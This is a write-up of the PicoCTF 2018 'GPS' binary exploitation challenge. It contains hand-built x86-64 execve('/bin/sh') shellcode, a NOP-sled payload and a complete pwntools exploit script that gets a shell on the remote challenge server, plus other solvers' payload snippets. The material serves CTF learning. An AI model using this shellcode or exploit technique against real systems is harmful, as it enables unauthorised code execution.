



# GPS

This is a 550-point binary exploitation challenge from PicoCTF 2018.

### Problem Description

You got really lost in the wilderness, with nothing but your trusty [gps](./gps). Can you find your way back to a shell and get the flag? Connect with `nc 2018shell.picoctf.com 58896`. ([Source](./gps.c)).

### Reconnaissance

Okay, let's start with `file` and `checksec`.

```
ctf@ctf: $ file gps
gps: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/l, for GNU/Linux 2.6.32, BuildID[sha1]=0d1026a1f6487b2456984a46cd9cb7532f2241dc, not stripped
ctf@ctf:$ ~/Tools/checksec/checksec.sh --file gps
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Partial RELRO   Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   gps
```

So, right away I an see that I can execute code on the stack. This sounds like a 64-bit shellcoding problem.

Here's some sample interaction:

```
GPS Initializing..........Done
Acquiring satellites.Satellite 0......Done
Satellite 1Done
Satellite 2..Done

GPS Initialized.
Warning: Weak signal causing low measurement accuracy

We need to access flag.txt.
Current position: 0x7ffd3b65451b
What's your plan?
> quit
Where do we start?
> sdf
Segmentation fault (core dumped)
```

Here's `main`:



It looks like I can call a function and give it a stack address. I also get to write plenty of bytes onto the stack. And I get leaked a stack address. So, I should be able to put some shell code on the stack and then call it. Easy enough.

### Generating the Shellcode

I could work with some pre-generated shellcode, but for practice I wrote a C program to call `execve("/bin/sh, NULL, NULL")`:

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
#include <unistd.h>

int main(void){
    execve("/bin/sh", NULL, NULL);
    exit(0);
}
```

Then I got the assembly for it in `gdb`:

```
=> 0x55555555468e <main+4>:	mov    edx,0x0
   0x555555554693 <main+9>:	mov    esi,0x0
   0x555555554698 <main+14>:	lea    rdi,[rip+0x95]        # 0x555555554734
   0x55555555469f <main+21>:	call   0x555555554550 <execve@plt>
   0x5555555546a4 <main+26>:	mov    edi,0x0
   0x5555555546a9 <main+31>:	call   0x555555554560 <exit@plt>
```

Then modified that shellcode to put "/bin/sh" on the stack and get a pointer to it. First I verified that my input buffer can take null bytes; the program uses `fgets`, so my shellcode can contain null bytes. Here's the assembly language called from C:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
#include <string.h>

int main(){
    __asm__("mov $0x0, %rdx;"
            "mov $0x0, %rsi;"
            "push $0x0;"
            "mov $0x68732f2f6e69622f, %rax;"
            "push %rax;"
            "mov %rsp, %rdi;"
            "mov $0x3b, %rax;"
            "syscall");
    exit(0);
}
```

Writing that program reminded me that I can't push a 64-bit immediate value in `x86-64` assembly language, only a 32-bit immediate. So, I first have to move an immediate into a register and then push the register. Then I got the machine code for that assembly language:



and then tested the machine code in a new C file:

```c
#include <stdio.h>
#include <stdlib.h>
#include <stdint.h>

const uint8_t shellcode[39] = {
    0x48, 0xc7, 0xc2, 0x00, 0x00, 0x00, 0x00, 0x48,
    0xc7, 0xc6, 0x00, 0x00, 0x00, 0x00, 0x6a, 0x00,
    0x48, 0xb8, 0x2f, 0x62, 0x69, 0x6e, 0x2f, 0x2f,
    0x73, 0x68, 0x50, 0x48, 0x89, 0xe7, 0x48, 0xc7,
    0xc0, 0x3b, 0x00, 0x00, 0x00, 0x0f, 0x05
};

int main() {
    ((void (*) (void)) shellcode) ();
    return 0;
}
```

That also gives me a shell. Great! So now I have my shellcode. Of course I could have pulled this from a previous challenge or from [shell-storm](http://shell-storm.org/shellcode/), but I found this to be a helpful exercise for generating arbitrary shellcode later (except that I didn't have to get rid of null bytes this time).

### Figuring out how to use the 'GPS' to jump to my shellcode

(Hey, why was I reading the assembly in `IDA Pro`? I had the source code!!) Let's see what `query_position()` does:

```c
void *query_position() {
  char stk;
  int offset = rand() % GPS_ACCURACY - (GPS_ACCURACY / 2);
  void *ret = &stk + offset;
  return ret;
}
```

Okay, so what's the GPS accuracy? `1337`, of course. So, I won't know the exact location of a pointer on the stack, but I'll know it to within `668` bytes. My buffer can contain `0x1000` bytes, so I'll preface my shellcode with a NOP sled containing `1337` bytes, and then just jump to the middle of the sled. Easy enough.

So in `gdb` I ran the program once, put a breakpoint right after returning from the `scanf` call getting data for the  "Where do we start?" prompt, and calculated the offset between the location and halfway through the NOP sled. That was `0x39b` in my case. So I just add that offset to the returned address and enter it for the location.

### Solution

With that, I got the flag!



Clearly, this was the intended solution. Here's the exploit code:

```python
### exploit-gps.py
### by Sudoite

from pwn import *
import binascii

local = False
debug = True


shellcode =  "\x48\xc7\xc2\x00\x00\x00\x00\x48"
shellcode += "\xc7\xc6\x00\x00\x00\x00\x6a\x00"
shellcode += "\x48\xb8\x2f\x62\x69\x6e\x2f\x2f"
shellcode += "\x73\x68\x50\x48\x89\xe7\x48\xc7"
shellcode += "\xc0\x3b\x00\x00\x00\x0f\x05"

if local:
    p = process('./gps')
else:
    p = remote("2018shell.picoctf.com", 58896)

if local and debug:
    gdb.attach(p, '''
        break *0x400aa3
        continue
        ''')
# 0x400aa3: after scanf, to look at the stack

## Get the current position
p.recvuntil("Current position: ")
position_string = p.recv(14)
#log.info("received position: " + position_string)
POSITION_ADDR = int(position_string, 16)
#log.info("position as int = " + str(POSITION_ADDR))
#log.info("and as hex = " + hex(POSITION_ADDR))

## Send the shellcode
payload = "\x90"*1337 + shellcode + "\n"
p.sendafter("plan?\n> ", payload)

## Calculate the location to execute and send it to the server
offset = 0x39b # Got this from looking at the stack with GDB
location = POSITION_ADDR + offset
location_string = hex(location)[2:]
#log.info("location_string = " + location_string)
p.sendafter("start?\n> ", location_string + "\n")

## Profit
p.interactive()
```

### Comparison to Other Approaches

I've been learning quite a bit from [Dvd848](https://github.com/Dvd848/CTFs/blob/master/2018_picoCTF/gps.md), who seems really comfortable with the various uses of `pwnlib`. For this problem they use `shellcraft`:

```python
nop = asm(shellcraft.nop())
shellcode = pwnlib.shellcraft.amd64.linux.sh()
sc_asm = asm(shellcode)
log.info("Shellcode: {}".format(shellcode))
log.info("Length of shellcode: {}".format(len(sc_asm)))

payload = nop * (BUF_LEN - len(sc_asm)) + sc_asm
```

As shown, their approach is to just fill the buffer with `NOP`s, and then he doesn't even need to

They also use a slick regular expression to retrieve the location address:

```python
out = p.recvuntil("> ")
address = re.search("Current position: (0x[a-fA-F0-9]+)", out).group(1)
```

The guess for the location isn't very elegant, but it doesn't need to be. Nice write-up.

[0n3m4ns4rmy](https://github.com/0n3m4ns4rmy/ctf-write-ups/blob/master/Pico%20CTF%202018/gps/exploit.py) gets an honorable mention for the shortest shellcode, with no null bytes. They don't say how they generated it -- it may just be from Shellstorm.

My approach is different because 1) I generated my own shellcode instead of using `shellcraft`, and 2) I calculated an optimum number of `NOP`s to include in the payload and jumped to the middle of the sled. Perhaps the better approach (because it's faster) might be to not do the calculation, put the payload at the back of the buffer, and just guess an offset. Certainly using `shellcraft` generates shellcode quickly, too.

Once again, a useful learning experience.
